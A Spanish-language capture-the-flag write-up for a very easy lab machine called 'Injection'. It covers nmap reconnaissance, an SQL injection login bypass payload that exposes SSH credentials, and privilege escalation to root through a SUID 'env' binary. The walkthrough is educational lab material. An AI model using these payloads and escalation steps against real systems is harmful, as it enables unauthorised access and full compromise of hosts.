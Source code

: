 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  09/04/2024
---
```


# Injection

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (8).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (9).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Utilizamos el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información específica sobre esos puertos.

<figure><img src="../../.gitbook/assets/2 (9).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagaremos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un formulario de iniciar sesión.

![](<../../.gitbook/assets/3 (9).png>)

Se intenta hacer **Login** con las credenciales más típicas como **admin:admin** y **admin:password** pero no hay suerte y si indagamos a través del código fuente tampoco hay nada que llamé la atención.

### 🚀 **EXPLOTACIÓN**

El nombre de la máquina nos sugiere que podría ser vulnerable a una **SQL Injection**, así que vamos a intentar hacer un **bypass**. Para probar, añadimos una comilla simple con una contraseña cualquiera.

![](<../../.gitbook/assets/4 (9).png>)

Ingresamos en el campo de usuario:

```sql
admin' or 1=1-- -
```

para que la condición sea siempre verdadera y en el campo de contraseña, ponemos cualquier valor.

![](<../../.gitbook/assets/5 (8).png>)

Como podemos observar nos hemos logueado correctamente y hemos descubierto información relevante como el nombre del usuario y la contraseña. Sabiendo esto nos conectamos a través de **SSH** con esas credenciales.

![](<../../.gitbook/assets/6 (7).png>)

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que ejecutamos:

```bash
sudo -l
```

para ver si hay algo que podamos explotar.

![](<../../.gitbook/assets/7 (7).png>)

Vemos que **sudo** no es funcional, así que decidimos probar otra vía, utilizando **SUID**. Exploramos los binarios con permisos **SUID** en el directorio raíz usando el comando:

```bash
find / -perm -4000 2>/dev/null
```

![](<../../.gitbook/assets/8 (7).png>)

Para saber que binarios se pueden ejecutar los buscamos en este enlace [Github](https://gtfobins.github.io/).&#x20;

Usamos la explotación **SUID** con **env** a través del comando:

```bash
/usr/bin/env /bin/sh -p
```

Finalmente, hemos conseguido ser **root**.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
